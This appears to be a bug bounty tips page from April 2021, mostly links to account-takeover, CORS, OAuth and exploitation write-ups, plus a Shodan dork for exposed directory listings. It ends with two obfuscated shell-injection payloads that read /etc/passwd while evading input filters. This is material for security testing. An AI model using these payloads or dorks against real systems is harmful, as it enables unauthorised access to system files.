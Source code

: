 # Bug Bounty Tips - April 2021

# 📅 01-Apr-2021
## Exploiting Account TakeOver => CSRF + CORS
- https://nirajmodi51.medium.com/missing-cors-leads-to-complete-account-takeover-1ed4b53bf9f2

## MindAPI 
Organize your API security assessment by using MindAPI. It's free and open for community collaboration.
- https://github.com/dsopas/MindAPI

## Bug Bytes 116
- https://blog.intigriti.com/2021/03/31/bug-bytes-116-new-oauth-attacks-hacking-shopify-with-a-single-dot-netmask-ssrf/

# 📅 02-Apr-2021
## Facebook Account Takeover writeups
- https://ysamm.com/?p=654
- https://ysamm.com/?p=646

## Dangerous Functions | Binary Exploitation 0x01
- https://youtu.be/EJtUW2AklVs

# 📅 05-Apr-2021
## Shodan Dorks
Everyone knows how to find Directory Listing Using Google Dorks Right?
Dork - intitle:"Index of /"

We can do the same with Shodan to find even more Directory Listings!

Dork- `http://ssl.cert.subject.CN:"*target.*" 200 http.title:"Index of /"`

## Obfuscation Random characters

### Payloads

```sh
$aaaaaaa/bin$bbbbbb/cat$ccccccc $dddddddd/etc$eeeeeee/passwd$ggggggg

$sdijchkd/???$sdjhskdjh/??t$skdjfnskdj $sdofhsdhjs/???$osdihdhsdj/??ss??$skdjhsiudf
```
### Proof of Concept
![img](https://pbs.twimg.com/media/EyMKkZWVEAAInk9?format=png&name=small)
![img](https://pbs.twimg.com/media/EyMKkZXUYAIaclN?format=png&name=large)
***Source: https://twitter.com/sec715/status/1378957974790492160?s=20***
